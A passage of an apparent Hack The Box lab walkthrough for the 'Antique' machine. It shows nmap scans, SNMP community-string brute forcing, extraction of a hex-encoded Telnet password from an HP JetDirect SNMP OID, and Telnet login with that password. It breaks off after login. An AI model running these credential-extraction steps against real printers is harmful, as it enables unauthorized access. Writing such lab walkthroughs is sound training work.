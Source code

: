 ```yaml
---
title: "HTB Walkthrough: Antique"
date: 2022-05-12T20:12:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/antique/antique.png
tags:
  - Easy
  - Linux Host
---
```


![Antique Logo](/assets/images/HTB/antique/antique.png)

**Welcome** to this walkthrough for the [Hack The Box](https://www.hackthebox.com/) machine Antique. This one is listed as an 'easy' box and has also been retired, so access is only provided to those that have purchased VIP access to HTB.
Because of this, you may notice that it is necessary to be connected to HTB's VIP VPN server, rather than the free server. To do this, change the dropdown selection in the top right corner where you select "Connect"
to "VIP" and download the .ovpn package (yes, even as a paid user, you must toggle between free and paid VPN packages depending on the machine).

---

## Scanning

Go ahead and run your favorite port scan. I will use NMap :  

### NMap Results  

```bash
TCP PORT SCAN:
sudo nmap -sS -A -sV -T5 -p- 10.10.11.107 | tee nmap.log

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```  

```bash
UDP PORT SCAN:
sudo nmap -sU 10.10.11.107 --open --top-ports=1000 | tee nmap-udp.log

PORT      STATE         SERVICE
137/udp   open|filtered netbios-ns
161/udp   open          snmp
1037/udp  open|filtered ams
1080/udp  open|filtered socks
5353/udp  open|filtered zeroconf
9001/udp  open|filtered etlservicemgr
16545/udp open|filtered unknown
18081/udp open|filtered unknown
18980/udp open|filtered unknown
20249/udp open|filtered unknown
21524/udp open|filtered unknown
23980/udp open|filtered unknown
30263/udp open|filtered unknown
33030/udp open|filtered unknown
34579/udp open|filtered unknown
35777/udp open|filtered unknown
44185/udp open|filtered unknown
45818/udp open|filtered unknown
47772/udp open|filtered unknown
49166/udp open|filtered unknown
49176/udp open|filtered unknown
49197/udp open|filtered unknown
51586/udp open|filtered unknown
```  

## Enumeration  

It looks like we have a printer JetDirect running on port 23 - Telnet && snmp is also open on UDP 161.  
Let's try to get some more information on these services.  

### SNMP - UDP 161  

NMap has many useful scripts for enumeration located in /usr/share/nmap/scripts. Normally if I am trying to run an NMap script on a target, I print all the relevant ones likeso :  

>ls -la /usr/share/nmap/scripts | grep [SERVICE]

```bash
┌──(kali㉿kali)-[~]
└─$ ls -la /usr/share/nmap/scripts/ | grep snmp      
-rw-r--r-- 1 root root  7816 Jan 18 09:54 snmp-brute.nse
-rw-r--r-- 1 root root  4388 Jan 18 09:54 snmp-hh3c-logins.nse
-rw-r--r-- 1 root root  5216 Jan 18 09:54 snmp-info.nse
-rw-r--r-- 1 root root 28644 Jan 18 09:54 snmp-interfaces.nse
-rw-r--r-- 1 root root  5978 Jan 18 09:54 snmp-ios-config.nse
-rw-r--r-- 1 root root  4156 Jan 18 09:54 snmp-netstat.nse
-rw-r--r-- 1 root root  4431 Jan 18 09:54 snmp-processes.nse
-rw-r--r-- 1 root root  1857 Jan 18 09:54 snmp-sysdescr.nse
-rw-r--r-- 1 root root  2570 Jan 18 09:54 snmp-win32-services.nse
-rw-r--r-- 1 root root  2739 Jan 18 09:54 snmp-win32-shares.nse
-rw-r--r-- 1 root root  4713 Jan 18 09:54 snmp-win32-software.nse
-rw-r--r-- 1 root root  2016 Jan 18 09:54 snmp-win32-users.nse
```  

Let's try using snmp-brute.nse script. According to [NMAP.ORG](https://nmap.org/nsedoc/scripts/snmp-brute.html), this script attempts to find SNMP community strings via brute-force guessing.  

SNMP community strings are unencrypted and only used in SNMPv1 & SNMPv2, prior to SSL/TLS. They act as a username or password that is shared to authenticate SNMP management stations to a device.  
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --script=snmp-brute.nse 10.10.11.107 -p 161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-13 01:06 EDT
Nmap scan report for 10.10.11.107
Host is up (0.075s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|   <empty> - Valid credentials
|   cascade - Valid credentials
|   secret - Valid credentials
|   rmonmgmtuicommunity - Valid credentials
|   ANYCOM - Valid credentials
|   volition - Valid credentials
|   ILMI - Valid credentials
|   TENmanUFactOryPOWER - Valid credentials
|   MiniAP - Valid credentials
|   PRIVATE - Valid credentials
|   admin - Valid credentials
|   private - Valid credentials
|   public - Valid credentials
|   PUBLIC - Valid credentials
|   snmpd - Valid credentials
|   cisco - Valid credentials
|   mngt - Valid credentials
|_  snmp-Trap - Valid credentials
```  

#Insert about exploits & snmpget description

```bash
──(kali㉿kali)-[~/Documents/HTB/Antique]
└─$ snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```  

This is a hex dump of the Telnet password, let's decipher it really quick. I used CyberChef to convert it to plain text :  

![Hex Deciphered in CyberChef](/assets/images/HTB/antique/pass-hex.png)  

### Telnet - TCP 23  
 Let's first try to connect to this JetDirect printer via telnet :  

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Antique]
└─$ telnet 10.10.11.107 
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: password
Invalid password
Connection closed by foreign host.
```  

We can use the password we grabbed from SNMP to login here :  

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Antique]
└─$ telnet 10.10.11.107 
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
```  

